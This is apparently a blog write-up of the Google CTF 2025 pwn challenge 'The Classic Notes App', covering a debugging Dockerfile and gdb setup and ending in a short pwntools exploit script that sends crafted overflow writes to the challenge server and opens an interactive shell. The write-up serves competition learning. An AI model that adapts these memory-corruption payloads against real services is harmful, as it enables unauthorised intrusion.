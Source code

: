 ```yaml
---
title: Google CTF 2025 Writeup | PWN - The Classic Notes App
slug: googlectf25-the-classic-notes-app
author: Utkarsh M
date: '2025-07-16'
description: "Writeup and solution for the Google CTF 2025 - The Classic Notes App challenge."
categories:
  - CTFs
tags:
  - write up
  - web
  - ctf
  - google
  - googlectf
  - reverse engineering
  - pwn
  - re
  - vm
images: 
  - /assets/img/ctf/googlectf25/the-classic-notes-app.png
---
```


### Challenge Details

> RC's notebook server. RC does not care about memory safety because *** protects him!<br>
> Author: RC, roguebantha


Connection string: `the-classic-notes-app.2025.ctfcompetition.com 1337`

files: `ctf.c, Dockerfile, nsjail.cfg, qemu-aarch64`

-------------------

## Application

It's a simple note-taking application built for the aarch64 architecture running through QEMU on the challenge server.

You can interact with it using commands like:

```sh
Give me your command:
R 1    
Note at 1: World!
Give me your command:
C 3
Give me your command:
W 2 0 3ABC
Give me your command:
R 2
Note at 2: ABC�
Give me your command:
```

## Solving the challenge

Updated Dockerfile to debug with gdb (gdb-multiarch):

```Dockerfile
# Copyright 2025 Google LLC
#
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     https://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.
FROM ubuntu:24.04 as chroot

# ubuntu24 includes the ubuntu user by default
RUN /usr/sbin/userdel -r ubuntu && /usr/sbin/useradd --no-create-home -u 1000 user

RUN apt update && apt install -y python3-full binutils-aarch64-linux-gnu gcc-aarch64-linux-gnu

COPY qemu-aarch64 /home/user/qemu-aarch64
COPY ctf.c /home/user/ctf.c
COPY flag.txt /home/user/flag.txt
RUN aarch64-linux-gnu-gcc /home/user/ctf.c -o /home/user/ctf -march=armv8.5-a+memtag -fPIE -pie

RUN cp /usr/bin/env /home/user/env

FROM gcr.io/kctf-docker/challenge@sha256:9f15314c26bd681a043557c9f136e7823414e9e662c08dde54d14a6bfd0b619f

COPY --from=chroot / /chroot

# COPY nsjail.cfg /home/user/
RUN apt install -y socat
CMD socat \
      TCP-LISTEN:1337,reuseaddr,fork \
      EXEC:"/chroot/home/user/env GLIBC_TUNABLES='glibc.mem.tagging=1' /chroot/home/user/qemu-aarch64 -L /chroot/usr/aarch64-linux-gnu/ -g 7878 /chroot/home/user/ctf"
# 
```

commands to debug:

```sh
# starting the container 
docker build -t gdb-build  .
docker run --name cn-gctf-2 -p 1337:1337 -p 7878:7878 --rm   --cap-add=SYS_ADMIN   --cap-add=SYS_PTRACE   --security-opt seccomp=unconfined   --security-opt apparmor=unconfined   --privileged   gdb-build 

# Inside gdb
file ./ctf # copied from :D docker container
set architecture aarch64
target remote localhost:7878
```


The following image illustrates the solution process for the challenge in detail.

![](/assets/img/ctf/googlectf25/the-classic-notes-app.png)

## solution

```py
import pwn

while True:
    try:
        t = pwn.remote('the-classic-notes-app.2025.ctfcompetition.com', 1337)
        t.timeout = None
        t.recvuntil(b'Give me your command:\n')
        t.sendline(b'W 1 32 2' + b'\xa0\x02')
        k = t.recvuntil(b'Give me your command:\n')
        t.sendline(b'W 0 0 4' + b'exit')
        t.recvuntil(b'Give me your command:\n')
        t.sendline(b'W 0 50 100'+ b'\xAA'*100)
        print(k)
        t.interactive()
        break
    except EOFError:
        try:
            t.close()
        except Exception:
            pass
        continue
```

[Github Gist ](https://gist.github.com/Utkar5hM/6606ed6bbde5e3729a13b7f8a778c2e6)

## Obtaining the flag

![](/assets/img/ctf/googlectf25/the-classic-notes-app-2.png)